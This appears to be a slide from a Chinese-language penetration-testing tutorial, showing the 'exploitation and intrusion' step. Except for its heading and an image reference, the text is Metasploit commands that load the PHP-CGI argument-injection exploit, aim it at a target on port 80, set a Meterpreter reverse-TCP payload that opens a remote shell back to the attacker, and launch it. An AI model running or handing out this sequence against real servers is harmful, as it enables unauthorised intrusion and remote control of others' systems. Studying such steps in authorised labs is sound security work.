

# 第四步：漏洞利用和入侵
use exploit/multi/http/php_cgi_arg_injection
set RHOST vulnerable（被攻击目标的IP地址）
set RPORT 80
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST
exploit